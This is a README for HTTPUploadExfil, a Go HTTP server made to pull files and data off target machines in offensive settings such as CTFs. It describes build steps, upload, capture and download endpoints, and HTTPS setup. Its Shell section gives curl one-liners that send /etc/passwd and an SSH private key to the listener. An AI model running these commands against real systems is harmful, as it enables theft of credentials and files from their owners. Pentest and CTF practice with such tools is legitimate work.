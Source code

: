 # HTTPUploadExfil

`HTTPUploadExfil` is a (very) simple HTTP server written in Go that's useful for getting files (and other information) off a machine using HTTP. While there are many use-cases, it's meant to be used in **low-stakes offensive scenarios** (e.g., CTFs).

Think of this as `python3 -m http.server` but for getting data off a machine instead of on the machine.

Obviously, this is a **very loud** and **somewhat restricted** way of exfiltrating data. Nevertheless, it's quite handy and somewhat easier than, for example, using SMB or FTP. If you are looking for something more elegant, have a look at, for example, [`dnsteal`](https://github.com/m57/dnsteal) or [`PyExfil`](https://github.com/ytisf/PyExfil).

**TL;DR**

1) Build the tool using `go build`.
2) Run `./httpuploadexfil :1337 /home/kali/loot` on your machine.
3) Access `http://YOUR_IP:1337/` on the machine you need to exfiltrate data from.
4) Find your uploaded files in `/home/kali/loot`.

## Building and Developing

While there are binaries available, it's absolutely recommended to **build this on your own**. This way, you will have the newest version, and you will also know exactly what you're running. The process is trivial:

Simply run `go build` within the folder, and you should get an `httpuploadexfil` executable for your platform.

If you make changes to the tool, remember to format using `go fmt main.go`.

## Usage

The most common use case would be to run the server on *Machine A*. Now, on *Machine B* you access the upload form using a browser and select a file to exfiltrate. Of course, as you can see below, this can also be done using, for example, `curl`.

Aside from uploading files, you can also use `HTTPUploadExfil` to exfiltrate data using simple GET requests. If a request is sent to the `\g` endpoint, the whole request will be stored to disk.

Hence, you can exfiltrate data using the header of the request. It's easiest to use GET parameters (e.g., `?data=...`), but there are other options.

![HTTPUploadExfil](https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/example-1.png?raw=true)

By default, `HTTPUploadExfil` will be served on port 8080. All files will be written to the current directory.

`./httpuploadexfil`

You can also provide some arguments:

`./httpuploadexfil :1337 /home/kali/loot`

The first argument is a bind address, the second one the folder to store files in.

The tool will also expose the files in the loot directory under the `/l` endpoint. This can be used as an easy way to bring files onto the target.

### Endpoints

The webserver exposes four endpoints for you to use:

1) `/` (GET) is the upload form.
2) `/p` (POST) takes the data from the upload form. It requires a `multipart/form-data` request with the `file` field filled.
3) `/g` (GET) will take any GET request and store the full request on the server.
4) `/l` (GET) will provide access to files in the specified folder (Directory Listing). This is to provide basic `python3 -m http.server` functionality.

### HTTPs Mode

`HTTPUploadExfil` can also be used in HTTPs mode. To do so, simply place a `HTTPUploadExfil.csr` and `HTTPUploadExfil.key` file next to the binary. These can be, for example, generated as follows:

```bash
openssl req -new -newkey rsa:2048 -nodes -keyout HTTPUploadExfil.key -out HTTPUploadExfil.csr
openssl x509 -req -days 365 -in HTTPUploadExfil.csr -signkey HTTPUploadExfil.key -out HTTPUploadExfil.csr
```

If the servers sees a `HTTPUploadExfil.csr` file, it will try to start in HTTPs mode. To go back to HTTP, simply remove or rename the certificate files.

### Shell

Using `Bash`, we can exfil data using GET via, for example:

``echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g``

Of course, we can also use `curl` to exfil files:

`curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p`

## ToDo

- [X] Implement an HTTPs version (Transport Encryption)
- [X] Add download option (i.e., provide `python3 -m http.server` functionality)
